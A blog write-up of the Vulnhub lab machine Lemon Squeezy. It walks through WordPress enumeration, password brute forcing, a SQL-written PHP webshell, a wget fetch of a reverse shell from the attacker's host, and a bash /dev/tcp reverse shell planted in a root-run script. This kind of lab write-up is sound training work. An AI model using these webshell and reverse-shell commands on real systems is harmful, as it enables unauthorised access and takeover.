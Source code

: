 ```yaml
---
layout: single
title: "Vulnhub Write-up: Lemon Squeezy"
excerpt: "Writeup for an OSCP-like machine created by my hackin' homie"
date: 2020-05-13
header:
  teaser: #/assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - enumeration
  - wordpress
  - sql
---
```




My study partner and former colleague recently created an OSCP-like machine for Vulnhub, as my machine Stripes already has a writeup available I felt his machine may be a bit lonely so I decided to be the first one to draw blood and create this writeup.

You can download the machine from vulhub: https://www.vulnhub.com/entry/lemonsqueezy-1,473/

## Summary 

- Scan wordpress to obtain both usernames and passwords
- Obtain PHPmyadmin creds and login
- Create backdoor by abusing SQL CLI access
- Keep squeezing the machine until the hidden escalation vector is identified

## Enumeration 
### Nmap :

![nmap](/assets/images/lemonsqueezy/1.jpg)


Full port scan shows just 80 (HTTP) open.
Navigating to 80 shows just the default apache page.
Gobuster shows that wordpress is installed, for good measure I started a dirbuster scan in the background in case wordpress was a red herring, 
however was confident that enumerating with wpscan would yield some information.

        wpscan --url http://lemonsqueezy/wordpress --enumerate u

As below we get 2 users:

![users](/assets/images/lemonsqueezy/2.JPG)

Next I ran good old rockyou against them:

        wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange

The first password is found very fast, I left the attack going on lemon but am highly doubtful it will find anything, I will move onto logging in:


![password](/assets/images/lemonsqueezy/3.JPG)

After seeing we will not be able to upload a shell, I had a look around the panel and found a draft post with a password in it.

I tried it in phpmyadmin first, as the draft was created by the current user (orange), and was able to log into phpmyadmin as orange with this PW first try

I had a brief look for exploits for the phpmyadmin version however decided to see what I could and couldn't do in here first.
Turns out I can set a new password value for lemon, which should allow me to log into the admin panel in WP and get a shell.
I changed the password to "password" and logged in.


![change_pass](/assets/images/lemonsqueezy/4.JPG)

Looks like the themes cannot be edited and media cannot be uploaded, seems to be intentionally hardened against this vector - so we will put a malicious plugin together and get shell this way.
I used a handy tool called wordpwn to spin a malicious plugin together - however I failed to realise that ALL upload functionailty is broken - so this did not work.
I went back to Phpmyadmin where I am unable to create new databases.
What I can do however is run direct sql queries.
I used this to create a webshell and confirm code execution as below:

        select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'

confirmed code execution with whoami:

        http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=whoami

![change_pass](/assets/images/lemonsqueezy/5.JPG)

I tried a few reverse shell oneliners however none worked so I gave up and simply hosted a php reverse shell, 
amended the IP and then grabbed with wget:

         http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.20.132/1.php

I then started a listener, navigated to the shell I just grabbed and now have a proper low priv foothold:

        http://lemonsqueezy/wordpress/wp-content/uploads/1.php


![low_priv](/assets/images/lemonsqueezy/6.JPG)

I upgraded my shell because I am both lazy and fancy

   In remote terminal:
   
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z
	
   In Kali terminal:
   
        stty -a
        stty raw -echo
        fg
        stty rows 20
	
Ta-da, now I have handy features such as autocomplete, access to bash history etc.
One of the first things I do with a www-data shell is go straight to /var/www/ and snoop around for additional web apps and credentials,
I was surprised to see user.txt in there, I did not think I would be able to read yet, however I was able to grab the flag - I suspect this means that we will 
either be pivoting straight to root or be able to read root flag as lemon/orange

![low_priv](/assets/images/lemonsqueezy/7.JPG)

*fun fact, flag decodes to "Music can change your life, "


## Privilege Escalation 

I did not find out anything in here I did not already know, I also manually checked for local listening ports and sudo commands aswell as snooped around orange's directory, so I decided to infiltrate some enumeration scripts to finish the rest of the groundwork for me.
After trying linenum and linpeas only linux smart enum gave me some useful info, I suspect this is because the binary was hidden by being called logrotate
https://github.com/diego-treitos/linux-smart-enumeration

![logrotate](/assets/images/lemonsqueezy/8.JPG)

I overwrote the code inside logrotate with a generic bash reverse shell one liner and got a shell back as root.

        #!/bin/bash
        bash -i >& /dev/tcp/192.168.20.132/8080 0>&1

![root_proof](/assets/images/lemonsqueezy/9.JPG)

The flag by itself does not decode, however if you add it to the second flag you get a profound bit of wisdom.
I will leave this to the solver to find this :)

All in all I think this was a fantastic OSCP prep machine, I personally preffered the user foothold over the privilege escalation but it certainly made me "squeeze" a bit harder huehuehue



